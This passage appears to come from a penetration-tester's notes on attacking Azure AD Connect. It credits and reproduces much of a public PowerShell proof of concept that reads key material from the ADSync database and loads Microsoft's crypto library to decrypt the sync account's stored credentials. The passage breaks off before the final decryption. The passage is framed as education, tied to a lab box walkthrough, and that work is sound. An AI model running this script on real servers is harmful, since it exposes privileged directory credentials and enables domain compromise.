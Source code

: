 
### 8. Check if we can interact with the database (SQL Custom installation): {#8-dot-check-if-we-can-interact-with-the-database--sql-custom-installation}

-   In this example if the default `LocalDB` is NOT being used we can see if it's possible to query the underlying database using `sqlcmd` (if it's installed)
    ```powershell
    sqlcmd -S <FQDNINSTANCE> -Q "SELECT name FROM master.dbo.sysdatabases"
    ```


## +Attacking Azure AD Connect+ {#88955c}


### Exploitating Azure AD Connect Using PowerShell: {#exploitating-azure-ad-connect-using-powershell}

**Here's a complete PowerShell script that demonstrates the exploitation process**:

-   This script must be run on the same machine as the Azure AD Connect server.
-   This script must be run with the same privileges as the MSOL account.
-   This script is by `@_xpn_` &amp; the original can be found here:
    -   <https://blog.xpnsec.com/azuread-connect-for-redteam/>
    -   <https://gist.github.com/xpn/0dc393e944d8733e3c63023968583545#file-azuread_decrypt_msol-ps1>
-   +Note+:
    -   I am using this script and explaining it here for educational purposes.
    -   You can see my walkthrough for the box Monteverde to see a full demonstration of this in action.
        -   <https://bloodstiller.com/walkthroughs/monteverde-box/>



```powershell
Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"

$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
```